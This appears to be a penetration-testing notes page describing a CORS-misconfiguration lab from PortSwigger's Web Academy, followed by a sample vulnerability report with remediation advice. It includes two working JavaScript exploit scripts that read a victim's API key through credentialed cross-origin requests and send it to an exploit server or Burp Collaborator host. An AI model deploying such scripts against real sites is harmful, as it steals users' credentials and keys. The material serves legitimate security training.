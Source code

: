 # Cross Origin Resource Sharing

## What is it

- A brillant and very well detailed explaination of the vulnerability [here](https://www.trustedsec.com/blog/cors-findings/)

## Exploitation Example

- Let's practice with the [Lab CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack) from PortSwigger Web Academy
- `wiener:peter` are our creds for the lab
- Let's launch the lab and go to "my account" in our and login with the provided creds  

![logged in](../.res/2023-01-25-18-18-36.png)  

- In Burp it looks like this. We are redirected to the `/accountDetails` page that has an apikey.  

![reqrep](../.res/2023-01-25-18-19-58.png)  

- We need to send this request to the repeater and check if it is vulnerable to CORS. [This article](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/11-Client_Side_Testing/07-Testing_Cross_Origin_Resource_Sharing) on OWASP is really helpful for this purpose.
- To do this we add an Origin header and put a random value.  
We can see that our random value appears in the response header `Access-Control-Allow-Origin` and that on top of this the `Access-Control-Allow-Credentials` is set to true.
- See our modified request and the response here  

![cors misconfigured](../.res/2023-01-25-18-26-41.png)  

- Knowing this we can now make a script to try to get more informations. In our example we will use the exploit server provided along with burp collaborator because the Access logs from the lab is buggy.  

```javascript
<!DOCTYPE html>
<html>
<body>
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    var url = "https://0a980006031d173ec6a5e26100e000b6.web-security-academy.net"
    
    req.onreadystatechange = function() {  
        fetch("/log?key="+req.responseText)
    }
    req.open('GET',url + "/accountDetails", true);
    req.withCredentials = true;
    req.send(null);
</script>
</body>
</html>
```

```javascript
<!DOCTYPE html>
<script>
    var victim = 'https://0aa600f704497dbac19a806500ef0037.web-security-academy.net/accountDetails';
    var collaborator = 'https://utr17g244hmkya8obx3uzsbcc3iu6lua.oastify.com';

    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('GET',victim,true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        req.open("GET", collaborator+"/?key="+req.response, true);
        req.send();
    };
</script>
```

- Thanks to [Lisandre](https://lisandre.com/penetration-tests/web-applications-apis/cors) for the exploit script. (I just removed the encoding to base64)  
It is the cleanest one I have seen so far and also the most readable.

- Let's put our script in the exploit server and click on Deliver Exploit to victim

![Deliver](../.res/2023-01-28-08-42-30.png)

- Once stored we click on "deliver to victim"
- Now we can check our collaborator. We will have a new request with the content we need.

![Get apikey](../.res/2023-01-28-08-46-12.png)

- If we select the string the inspector will decode it from URL encoding for more readability  

![Inspector](../.res/2023-01-28-08-48-17.png)

- We just need to take the apikey value and paste it in submit solution and we successfuly exploited a cors misconfiguration.

![Solved](../.res/2023-01-28-08-49-52.png)

## How to report

> *Note: Here is an example on how to report it, CVSS score is here as a reference but you should always check out the context of your customer to calculate it*

```md
## CVSS

cvss_vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:N/I:L/A:N

## Description

Cross Origin Resource Sharing (CORS) is a mechanism that enables a web browser to perform cross-domain requests using the XMLHttpRequest (XHR) Level 2 (L2) API in a controlled manner. In the past, the XHR L1 API only allowed requests to be sent within the same origin as it was restricted by the Same Origin Policy (SOP).

Cross-origin requests have an Origin header that identifies the domain initiating the request and is always sent to the server. CORS defines the protocol to use between a web browser and a server to determine whether a cross-origin request is allowed. HTTP headers are used to accomplish this.

The W3C CORS specification mandates that for non simple requests, such as requests other than GET or POST or requests that uses credentials, a pre-flight OPTIONS request must be sent in advance to check if the type of request will have a bad impact on the data. The pre-flight request checks the methods and headers allowed by the server, and if credentials are permitted. Based on the result of the OPTIONS request, the browser decides whether the request is allowed or not.

In our context, the CORS was misconfigured and we were able to exploit it in order to access the confidential administrator apikey.

## Affected elements

- https://0aa600f704497dbac19a806500ef0037.web-security-academy.net/accountDetails

## Evidence

Here you can put the code of the PoC and screens of collaborator as proof of successful exploitation.

## Remediation

Make sure cors is properly configured:

- Validate URLs passed to XMLHttpRequest.open. Current browsers allow these URLs to be cross domain; this behavior can lead to code injection by a remote attacker. Pay extra attention to absolute URLs.
- Ensure that URLs responding with Access-Control-Allow-Origin: * do not include any sensitive content or information that might aid attacker in further attacks. Use the Access-Control-Allow-Origin header only on chosen URLs that need to be accessed cross-domain. Don't use the header for the whole domain.
- Allow only selected, trusted domains in the Access-Control-Allow-Origin header. Prefer allowing specific domains over blocking or allowing any domain (do not use * wildcard nor blindly return the Origin header content without any checks).
- Keep in mind that CORS does not prevent the requested data from going to an unauthorized location. It's still important for the server to perform usual CSRF prevention.
- While the Fetch Standard recommends a pre-flight request with the OPTIONS verb, current implementations might not perform this request, so it's important that "ordinary" (GET and POST) requests perform any access control necessary.
- Discard requests received over plain HTTP with HTTPS origins to prevent mixed content bugs.
- Don't rely only on the Origin header for Access Control checks. Browser always sends this header in CORS requests, but may be spoofed outside the browser. Application-level protocols should be used to protect sensitive data.

## Reference

- [HTML5 Security Cheat Sheet - Cross Origin Resource Sharing - OWASP](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#cross-origin-resource-sharing)
- [OWASP - Testing Cross Origin Resource Sharing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/07-Testing_Cross_Origin_Resource_Sharing)
```

## Resources

- [OWASP - Testing Cross Origin Resource Sharing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/07-Testing_Cross_Origin_Resource_Sharing)
- [Lisandre - Cross Origin Resource Sharing (CORS)](https://lisandre.com/penetration-tests/web-applications-apis/cors)
- [Hacktricks - CORS Bypass](https://book.hacktricks.xyz/pentesting-web/cors-bypass)
- [Hackerone report for US DoD - Cors](https://hackerone.com/reports/470298)